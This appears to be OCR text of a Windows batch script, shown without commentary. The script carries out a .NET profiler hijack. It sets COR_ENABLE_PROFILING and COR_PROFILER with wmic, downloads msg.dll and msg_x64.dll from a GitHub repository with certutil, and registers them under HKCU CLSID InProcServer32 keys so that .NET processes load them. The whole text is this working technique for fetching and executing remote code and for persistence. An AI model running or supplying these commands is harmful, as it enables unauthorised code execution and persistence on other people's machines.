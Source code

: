 wmic ENVIRONMENT create
name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create
name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"

certutil.exe -urlcache -split -f
https://raw.githubusercontent.com/3gstudent/test/master/msg.dll

certutil.exe -urlcache -split -f
https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete

certutil.exe -urlcache -split -f
https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll

certutil.exe -urlcache -split -f
https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll delete

SET
KEY=HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{11111111-1111-1111-1111-111111111111}\\InProcServer32

REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\\msg_x64.dll" /F

REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F

SET
KEY=HKEY_CURRENT_USER\\Software\\Classes\\WoW6432Node\\CLSID\\{11111111-1111-1111-1111-111111111111}\\InProcServer32

REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\\msg.dll" /F

REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F

https://raw.githubusercontent.com/3gstudent/test/master/msg.dll

https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll
